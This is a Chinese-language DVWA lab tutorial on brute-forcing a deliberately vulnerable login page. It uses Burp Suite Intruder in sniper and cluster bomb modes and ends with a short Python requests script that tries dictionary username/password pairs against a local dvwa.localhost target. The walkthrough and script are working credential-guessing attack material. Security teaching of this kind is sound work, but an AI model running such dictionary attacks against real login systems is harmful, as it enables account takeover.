


[TOC]

# 暴力破解

##概述

暴力破解安全级别为低时的登陆页面。

DVWA：Vulnerability: Brute Force页面如下：


输入正确的用户名和密码，得到的结果为


本实验的目的是使用burp suite字典攻击该页面，获取用户名和密码。


## 1.bursuite拦截

字典攻击该页面，首先需要获取一个用户登陆时往服务器发送的请求报文。攻击者随便发送并用burpsuite拦截这个报文。


bursuite中proxy拦截这个报文（bursuite配置网上有教程，配置好重启浏览器）


## 2.将上述报文发送到intruder


可以在intruder中看到这个报文


intruder中将报文标绿的字段是变量，也就是需要暴力破解的目标。

intruder中有4中破解模式

* sniper：最常用，破解一个变量，比如知道用户名，破解密码。需要一个字典
* battering-ram
* pitchfork
* cluster bomb：破解多个变量。比如需要破解用户名和密码，有两个字典。


## 3.sniper

只将密码设置为变量，只选中密码值字段即可。此处我将用户名编辑为了`admin`


在`payloads - payloads options`中导入字典，也可以手动输入


字典文件示例：


点击右上角 start attack即可开始攻击,攻击结果如图,因为正确登陆和错误时返回页面的内容长度不同，可以根据消息的长度判断出正确的密码是`password`


## 4.cluster bomb模式

设置多个变量，此处我设置了两个


在payload中设置字典。

### username字段字典设置

payload set中选择1，并按照sniper中的方式设置该字段字典


###password字段

payload set中选择2，设置password的字典。按照sniper中的方式设置该字段字典


开始攻击，可以看到burp suite自动开始攻击，同样可以根据长度来判断结果


## 5.结果分析

这个页面的源码地址 `DVWA/vulnerabilities/brute/source/low.php`，分析源码，这是一个典型的万能密码（存在sql注入漏洞）。这个页面没有对输入次数进行限制，即错误一定次数后，XX秒等到，所以使得攻击者可以不断利用暴力破解的方式去寻找正确的密码。


## python爬虫实现字典攻击

```python
import requests

header = {
    'Host': 'dvwa.localhost',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8',
    'Accept-Encoding': 'gzip, deflate',
    'Upgrade-Insecure-Requests': '1',
    'Accept-Language': 'zh-cn',
    'Connection': 'keep-alive',
    'Cookie': 'PHPSESSID=vbj4g725p9d0aulhe02s1gm417; security=low',
    'User-Agent': 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_13_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/69.0.3497.100 Safari/537.36'
}

with open('dic.txt') as f:
    i = 0;
    for item in f.readlines():
        pos = item.rfind(",")
        username = item[:pos]
        password = item[pos + 1:]
        url = "http://dvwa.localhost/vulnerabilities/brute/" + "?username=" + username.strip() + \
                     "&password=" + password.strip() + "&Login=Login"
        rep = requests.get(url, headers=header)
        print(i,username.strip(), password.strip(),len(rep.text))
        i = i + 1
```

字典的内容为：



返回值：

